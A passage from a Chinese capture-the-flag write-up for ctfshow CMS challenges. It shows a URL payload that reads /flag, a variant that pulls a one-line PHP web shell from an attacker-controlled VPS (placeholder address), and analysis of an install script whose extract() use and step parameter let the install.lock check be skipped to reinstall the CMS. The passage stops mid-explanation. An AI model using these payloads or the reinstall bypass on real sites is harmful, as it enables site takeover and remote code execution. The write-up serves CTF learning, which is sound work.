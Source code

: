 md5在cmd5里查出是`ctfshow`

**payload**

```
?session=ctfshow&url=/flag&cms=1.php
```

也可以在vps上写入一句话木马

```
?session=ctfshow&url=http://x.x.x.x:xxxx/shell.txt&cms=1.php
```

## web482

给出了源码

打开页面是一个安装成功的页面，但是默认目录是在`install`的

![image-20221227174054897](ctfshow_cms.assets/image-20221227174054897.png)

估计是要重安装

在`/install/index.php`中有如下代码

```php
if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
if($_GET) extract($_GET, EXTR_SKIP);
$submit = isset($_POST['submit']) ? true : false;
$step = isset($_POST['step']) ? $_POST['step'] : 1;
```

可以**POST**传**step**来选择安装的第几步

而只有`step_1`有如下限制

```php
if(file_exists("install.lock")){
echo "<div style='padding:30px;'>安装向导已运行安装过，如需重安装，请删除 /install/install.lock 文件</div>";
}
```

传**step**为2
